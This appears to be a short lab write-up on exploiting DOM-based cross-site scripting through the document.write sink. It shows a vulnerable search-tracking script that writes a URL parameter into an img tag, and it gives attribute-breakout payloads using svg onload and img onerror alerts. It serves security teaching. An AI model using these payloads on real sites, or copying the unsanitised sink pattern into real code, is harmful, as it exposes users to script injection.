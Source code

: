 ### Exploiting DOM XSS with different sources and sinks

In principle, a website is vulnerable to DOM-based cross-site scripting if there is an executable path via which data can propagate from source to sink. In practice, different sources and sinks have differing properties and behavior that can affect exploitability, and determine what techniques are necessary. Additionally, the website's scripts might perform validation or other processing of data that must be accommodated when attempting to exploit a vulnerability. There are a variety of sinks that are relevant to DOM-based vulnerabilities. Please refer to the list below for details.

The document.write sink works with script elements, so you can use a simple payload, such as the one below:

```document.write('... <script>alert(document.domain)</script> ...');```



1 - Enter a random alphanumeric string into the search box.

2 - Right-click and inspect the element, and observe that your random string has been placed inside an img src attribute.

```js
<script>
function trackSearch(query) {
   document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
   if(query) {
      trackSearch(query);
}
</script>
```

3 - Break out of the img attribute by searching for:

```"><svg onload=alert(1)>```
or
```"><img src=x onerror=alert(1)>```

                    
